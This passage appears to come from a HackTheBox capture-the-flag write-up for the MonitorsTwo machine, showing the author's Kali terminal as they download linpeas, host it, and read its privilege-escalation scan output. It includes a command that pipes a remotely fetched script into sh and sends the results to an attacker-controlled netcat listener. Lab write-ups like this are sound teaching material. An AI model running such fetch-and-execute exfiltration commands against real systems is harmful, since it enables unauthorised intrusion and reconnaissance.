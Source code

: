     --2023-05-16 15:36:43--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/1f1f0080-bb74-490c-ac12-16e66dcb0699?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20230516%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20230516T193601Z&X-Amz-Expires=300&X-Amz-Signature=267efcd94629b388ffc0decf9f86725f34b28929ad55df95f9a745fcb504ef9d&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=165548191&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream
    Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.111.133, ...
    Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 835306 (816K) [application/octet-stream]
    Saving to: ‘linpeas.sh’
    
    linpeas.sh                                         100%[=============================================================================================================>] 815.73K  2.89MB/s    in 0.3s    
    
    2023-05-16 15:36:43 (2.89 MB/s) - ‘linpeas.sh’ saved [835306/835306]
    
                                                                                                                                                                                                             
    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.211 - MonitorsTwo (lin)/attack/upld]
    └─$ php -S 10.10.14.69:80
    [Tue May 16 15:37:25 2023] PHP 8.2.4 Development Server (http://10.10.14.69:80) started
    

Let's get ready to receive the scan from the BOX.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.211 - MonitorsTwo (lin)/attack/dwnl]
    └─$ nc -lp 4445 | tee lpeasout.file
    

And we initiate the attack on the remote machine without leaving any traces.

    curl http://10.10.14.69/linpeas.sh | sh | nc 10.10.14.69 4445
    

Let's look at the most interesting points of scan **linpeas**.

    [...]
    ╔══════════╣ Active Ports
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                            
    tcp        0      0 127.0.0.1:35077         0.0.0.0:*               LISTEN      -                                                                                                                        
    tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::80                   :::*                    LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                   
    [...]
                          ╔════════════════════════════════════╗
    ══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                       
                          ╚════════════════════════════════════╝                                                                                                                                             
    ╔══════════╣ SUID - Check easy privesc, exploits and write perms
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                         
    strings Not Found                                                                                                                                                                                        
    -rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                
    -rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 23K Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 463K Mar 30  2022 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 55K Feb  7  2022 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
    -rwsr-xr-x 1 root root 163K Apr  4 11:56 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
    -rwsr-xr-x 1 root root 87K Nov 29 11:53 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39K Feb  7  2022 /usr/bin/umount  --->  BSD/Linux(08-1996)
    -rwsr-xr-x 1 root root 67K Nov 29 11:53 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
    -rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
    -rwsr-xr-x 1 root root 52K Nov 29 11:53 /usr/bin/chsh